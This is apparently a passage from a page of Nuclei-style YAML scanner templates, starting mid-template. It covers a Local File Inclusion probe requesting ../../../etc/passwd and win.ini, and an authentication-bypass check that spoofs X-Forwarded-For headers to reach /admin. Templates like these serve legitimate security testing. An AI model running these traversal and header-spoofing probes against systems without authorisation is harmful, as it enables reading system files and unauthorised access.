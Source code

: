 ```yaml
    matchers:
      - type: word
        words:
          - "{{marker}}"
        part: body
      - type: regex
        regex:
          - 'root|administrator|www-data'
        part: body
```

### **Local File Inclusion (LFI)**
```yaml
http:
  - method: GET
    path:
      - "{{BaseURL}}/view?file=../../../etc/passwd"
      - "{{BaseURL}}/view?file=..\\..\\..\\windows\\win.ini"
    
    matchers:
      - type: regex
        regex:
          - 'root:.*?:[0-9]*:[0-9]*:'  # Linux /etc/passwd
          - '\[fonts\]'                 # Windows win.ini
        part: body
```

### **Authentication Bypass**
```yaml
http:
  - method: GET
    path:
      - "{{BaseURL}}/admin"
    headers:
      X-Originating-IP: 127.0.0.1
      X-Forwarded-For: 127.0.0.1
      X-Real-IP: 127.0.0.1
    
    matchers-condition: and
    matchers:
      - type: word
        words:
          - "Admin Dashboard"
          - "Administrative Panel"
        part: body
      - type: status
        status:
          - 200
```

---
